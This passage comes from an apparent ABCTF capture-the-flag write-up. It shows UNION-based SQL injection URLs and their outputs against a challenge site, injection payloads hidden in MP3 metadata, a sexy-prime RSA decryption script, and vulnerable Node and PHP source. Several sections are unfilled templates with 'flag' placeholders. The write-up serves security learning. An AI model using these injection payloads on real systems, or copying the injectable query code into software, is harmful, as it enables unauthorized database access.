http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,table_name,8 from information_schema.tables where table_schema=database()--+

Name: Saranac
Breed: Great Dane
Color: Black
Name: 42
Breed: 5
Color: w0w_y0u_f0und_m3
Name: 42
Breed: 5
Color: webeight
```

so we know the table_name is `w0w_y0u_f0und_m3`

now for the column names (we had to hex encode the table name for this to work):

```
http://yrmyzscnvh.abctf.xyz/web8/?id=2 union select 2,2,column_name,8 from information_schema.columns where table_schema=database() and table_name=0x7730775f7930755f6630756e645f6d33--+
Name: Doodle
Breed: Poodle
Color: Pink
Name: 2
Breed: 2
Color: f0und_m3
'''

So we found the column name we need. now to extract data from this column

http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 2,4,f0und_m3,1 from w0w_y0u_f0und_m3--+
Name: Saranac
Breed: Great Dane
Color: Black
Name: 4
Breed: 2
Color: abctf{uni0n_1s_4_gr34t_c0mm4nd}
```

**Flag**  
```
abctf{uni0n_1s_4_gr34t_c0mm4nd}
```

## Programming 150: Qset2
**Challenge**  
Time for something harder.. write a program to calculate the square root of an input. `nc 107.170.122.6 7772`
**Solution**  
**Flag**  
```
flag
```

## Cryptography 160: Sexy RSA

**Challenge**  

Check this out!

```
I recovered some RSA parameters. Can you decrypt the message?

c = 293430917376708381243824815247228063605104303548720758108780880727974339086036691092136736806182713047603694090694712685069524383098129303183298249981051498714383399595430658107400768559066065231114145553134453396428041946588586604081230659780431638898871362957635105901091871385165354213544323931410599944377781013715195511539451275610913318909140275602013631077670399937733517949344579963174235423101450272762052806595645694091546721802246723616268373048438591
n = 1209143407476550975641959824312993703149920344437422193042293131572745298662696284279928622412441255652391493241414170537319784298367821654726781089600780498369402167443363862621886943970468819656731959468058528787895569936536904387979815183897568006750131879851263753496120098205966442010445601534305483783759226510120860633770814540166419495817666312474484061885435295870436055727722073738662516644186716532891328742452198364825809508602208516407566578212780807
e = 65537
```

**Solution**  

N is way too large to factor, and there are no hits in factordb. There must be more to it ..after some time we
figured the title might be a hint, and learned there is such a thing as [sexy primes](https://en.wikipedia.org/wiki/Sexy_prime)

so we try to find two primes that differ by six which when multiplied equal `N`. This is basically the following quadratic equation:

```
x*(x+6) = N
```

which we can easily solve:

```python
from sympy.solvers import solve
from sympy import Symbol
x = Symbol('x')
solve (x**2+6*x-N,x)
```

this outputs:

```
 [-1099610570827941329700237866432657027914359798062896153406865588143725813368448278118977438921370935678732434831141304899886705498243884638860011461262640420256594271701812607875254999146529955445651530660964259381322198377196122399, 1099610570827941329700237866432657027914359798062896153406865588143725813368448278118977438921370935678732434831141304899886705498243884638860011461262640420256594271701812607875254999146529955445651530660964259381322198377196122393]
```

so now we know our pair of primes

```
p = 1099610570827941329700237866432657027914359798062896153406865588143725813368448278118977438921370935678732434831141304899886705498243884638860011461262640420256594271701812607875254999146529955445651530660964259381322198377196122393
q=p+6
```

and we can use this to decrypt the message

```python
from Crypto.PublicKey import RSA
import gmpy2

def int2Text(number, size):
    text = "".join([chr((number >> j) & 0xff) for j in reversed(range(0, size << 3, 8))])
    return text.lstrip("\x00")

C = 293430917376708381243824815247228063605104303548720758108780880727974339086036691092136736806182713047603694090694712685069524383098129303183298249981051498714383399595430658107400768559066065231114145553134453396428041946588586604081230659780431638898871362957635105901091871385165354213544323931410599944377781013715195511539451275610913318909140275602013631077670399937733517949344579963174235423101450272762052806595645694091546721802246723616268373048438591
p = 1099610570827941329700237866432657027914359798062896153406865588143725813368448278118977438921370935678732434831141304899886705498243884638860011461262640420256594271701812607875254999146529955445651530660964259381322198377196122393L
q = p+6
N = p*q
r=(p-1)*(q-1)
e = 65537L
d = long(gmpy2.divm(1, e, r))

rsa = RSA.construct((N,e,d,p,q))
pt = rsa.decrypt(C)

print pt
print int2Text(pt,100)
```

which outputs

```
450399959613816415828813303011378086519519456226341693974137269925915005
ABCTF{i_h4ve_an_RSA_fetish_;)}
```

**Flag**  
```
ABCTF{i_h4ve_an_RSA_fetish_;)}
```

## Cryptography 160: Custom Authentication
**Challenge**  
I just learned about encryption and tried to write my own authentication system. Can you get in? Here is the source! And [here](http://107.170.122.6:3001/) is the site.

```javascript
var http = require('http');
var express = require('express');
var path = require('path');
var cookieParser = require('cookie-parser');
var bodyParser = require('body-parser');
var crypto = require('crypto');

var secrets = require('./secrets');

var app = express();

app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));
app.use(cookieParser());

console.log("Starting server...");

var encrypt = function(data) {
  var cipher = crypto.createCipheriv('aes-192-cbc', secrets.key, secrets.iv);
  cipher.setAutoPadding(true);
  var ctxt = cipher.update(data, 'ascii', 'hex');
  ctxt += cipher.final('hex');
  return ctxt;
};

var decrypt = function(data) {
  var decipher = crypto.createDecipheriv('aes-192-cbc', secrets.key, secrets.iv);
  decipher.setAutoPadding(true);
  var ptxt = decipher.update(data, 'hex', 'ascii');
  ptxt += decipher.final('ascii');
  return ptxt;
};

app.get('/', function(req, res) {
  if(req.cookies.auth) {
    var auth = decrypt(req.cookies.auth).replace(/[^0-9a-zA-Z{}":, ]+/g, '');
    auth = JSON.parse(auth);
    res.render('index', {auth: auth, flag: secrets.flag});
  }
  else {
    res.render('index', {auth: false, flag: secrets.flag});
  }
});

app.post('/logout', function(req, res) {
  res.append('Set-Cookie', 'auth=; Path=/; HttpOnly');
  res.redirect('/');
});

app.post('/login', function(req, res) {
  if(req.body.username && req.body.password) {
    var admin = "false";
    if(req.body.username===secrets.username && req.body.password===secrets.password)
        admin = "true";
    var auth = {username: req.body.username, password: req.body.password, admin: admin};
    auth = encrypt(JSON.stringify(auth));
    res.append('Set-Cookie', 'auth='+auth+'; Path=/; HttpOnly');
    res.redirect('/');
  }
});

// catch 404
app.use(function(req, res, next) {
  var err = new Error('Not Found');
  err.status = 404;
  next(err);
});

// error handler
app.use(function(err, req, res, next) {
  console.log(err);
  res.status(err.status || 500);
  res.render('error', {
    status: err.status
  });
});

var server = http.createServer(app).listen(3001, function(){
  console.log("HTTP server listening on port 3001!");
});
```

**Solution**

I ran it locally which indicated missing [ejs](https://github.com/tj/ejs). I
hoped they did not sanitize their inputs so I tried using usernames like `<%=
flag %>` but they sanitized these heavily.

Next I spent a fair amount of time inspecting the encryption and decryption to
see if I could get around solving it It is easy to feed the function bad data,
so it parses extra variables into the data structure. Unfortunately `admin:
true` is always at the end and cannot be overwritten.

**Flag**
```
flag
```

## Web Exploitation 170: Inj3ction
**Challenge**  
You can do it. [Link](http://yrmyzscnvh.abctf.xyz/injection3/)

*Hint: I'm pretty sure there isn't even an account that is an admin.*

**Solution**  

Another SQL injection challenge, this time we are given the source:

```php
<?php
    include("flag.php");
    $con = mysqli_connect("localhost", "injection3", "injection3", "injection3");
    $username = $_POST["username"];
    $password = $_POST["password"];

    $query = "SELECT * FROM users WHERE username='$username'";
    $result = mysqli_query($con, $query);

    $logged_in = false;

    if(mysqli_num_rows($result) === 1) {
        $row = mysqli_fetch_array($result);
        if($row["password"] === $password){
            $logged_in = true;
            if($row["is_admin"] === true){
                echo("<h1>Wow! Your flag is: $flag </h1>");
            }
        }
    }
    if(!$logged_in){
        echo("<h1>You failed!</h1>");
    }
?>
```

From the hint it would seem we do not need to pass all the checks, but rather get
the program to output the `$flag` variable for us.

**Flag**  
```
flag
```

## Programming 200: Qset3
**Challenge**  
Calculate an RSA private key `107.170.122.6 7773`

**Solution**  

**Flag**  
```
flag
```

## Web Exploitation 200: AudioEdit
**Challenge**  
I made a cool site to edit audio files. [Can you exploit it?](http://107.170.122.6/audioedit/)

**Solution**  
The website lets you upload mp3 files and then displays some metadata and plays it for you.

It has to be a valid mp3 file

We try if we can put SQL injection in the exifdata and indeed we can: (exiftool doesn't do exifdata updates for mp3 so we used easytag)

```
foo', (SELECT VERSION())) -- -
> Author: foo
> Title: 5.5.49-0ubuntu0.14.04.1

foo', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())) -- -
> Author: foo
> Title: audioedit

foo', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='audioedit')) -- -
> Author: foo
> Title: id,file,author,title

foo', (SELECT GROUP_CONCAT(CONCAT(id, ':', file, ':' , author, ':' , title )) FROM audioedit)) -- -
> error inserting into database
```

**Flag**  
```
flag
```

## Reverse Engineering 250: Frozen Recursion
**Challenge**  
I finally learned recursion! Am I doing it right? Here it is.

**Solution**  

**Flag**  
```
flag
```

## Reconnaissance 300: Liorogamerdvd
**Challenge**  
<None>

**Solution**  

**Flag**  
```
flag
```

## Challenge 10: Title
**Challenge**  
**Solution**  
**Flag**  
```
flag
```
